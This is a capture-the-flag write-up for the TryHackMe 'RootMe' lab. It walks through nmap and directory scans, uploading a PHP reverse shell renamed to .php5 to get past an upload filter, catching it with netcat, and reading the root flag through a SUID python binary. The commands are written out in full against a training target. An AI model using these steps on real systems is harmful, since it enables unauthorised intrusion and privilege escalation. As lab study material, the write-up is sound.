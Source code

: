 # RootMe

<img src="https://i.imgur.com/Wp8VFx7.png" width="100" height="100">

Author : [R4yan](https://tryhackme.com/p/R4yan)

## TASK 2

1) start a nmap scan 
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```
the ports open are : 2

2) apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29

3) service on port 22 is ssh

4) start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)

5) the hidden directories : 
```bash
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
```
the hidden directory is /panel/ and the interesting one is uploads

# Task 3
1) download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port
```
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
```
then rename it to bypass file upload restrictions into .php5
```
mv php-reverse-shell.php rev.php5
```
then upload it and start a netcat listener
```
nc -lvnp LPORT
```
and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
and
```
python -c 'import os; os.system("/bin/bash")'
```
now get user.txt
```
cat /var/www/user.txt
THM{********************}
```
# Task 4 priv esc

1) after running

```
find / -user root -perm /4000
```
you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3) get the root flag by simply running

```
python -c 'print(open("/root/root.txt").read())'
THM{********************}
```

